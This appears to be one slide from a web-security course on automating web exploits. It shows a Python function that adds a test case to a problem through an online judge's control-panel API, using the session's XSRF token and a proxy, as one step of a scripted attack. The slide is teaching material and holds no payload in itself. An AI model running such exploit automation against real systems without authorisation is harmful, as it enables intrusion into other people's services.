

Web (cont.)
Basic Web : Automating Web Exploits
Next, we add a test case for the problem we created
def add_problem_testcase(target_url, s, problem_id):
    data_json = {"problemid": problem_id,
            "input":"anything",
            "output":"anything",
            "executtime":"2"}
    res = s.post(target_url + "/controlpanel/problems/testcase/creat",
            headers={"X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"])},
            json=data_json, proxies=PROXIES)
    res = res.json()
    if("The test case has been successfully added" == res["description"]):
        print("[*] Test case has been added!")
    else:
        print("[-] Couldn't create a testcase :(")
        sys.exit(-1)
31